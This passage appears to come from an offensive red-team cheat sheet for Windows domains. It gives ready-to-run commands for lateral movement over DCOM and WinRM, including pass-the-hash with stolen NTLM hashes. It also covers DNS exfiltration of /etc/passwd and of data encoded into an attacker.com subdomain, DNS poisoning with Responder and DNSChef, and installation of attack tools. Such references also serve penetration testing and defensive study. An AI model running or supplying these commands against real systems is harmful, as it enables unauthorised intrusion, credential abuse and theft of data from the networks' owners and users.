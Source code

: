 #### DCOM Lateral Movement

```bash
# Linux
dcomexec.py domain.com/user:pass@target
dcomexec.py -hashes :NTLM_HASH domain.com/user@target

# Windows
$com = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "target"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe", $null, "/c <command>", "7")
```

#### WinRM Lateral Movement

```bash
# Linux
evil-winrm -i target -u user -p password
evil-winrm -i target -u user -H NTLM_HASH

# Windows
Enter-PSSession -ComputerName target -Credential $cred
Invoke-Command -ComputerName target -Credential $cred -ScriptBlock {<command>}
```

### 🌐 DNS Attacks

#### DNS Exfiltration

```bash
# DNSExfiltrator
python3 dnsexfiltrator.py -d domain.com -f /etc/passwd

# Windows
nslookup $(echo "data" | base64).attacker.com
```

#### DNS Poisoning

```bash
# Responder DNS spoofing
responder -I eth0 -A

# DNSChef
dnschef --fakeip=attacker_ip --fakedomains=*.domain.com
```

---

## 🔧 Essential Tool Installation & Setup

### 🐧 Advanced Linux Setup

```bash
# Core Tools
pip3 install impacket crackmapexec ldap3 dnspython requests
go install github.com/ropnop/kerbrute@latest
pip3 install certipy-ad bloodhound neo4j-driver

# Advanced Tools
git clone https://github.com/fortra/impacket.git && cd impacket && pip3 install .
git clone https://github.com/dirkjanm/krbrelayx.git
git clone https://github.com/SecureAuthCorp/impacket.git
pip3 install lsassy netexec
apt install enum4linux smbclient ldap-utils dnsutils

# Specialized Tools
```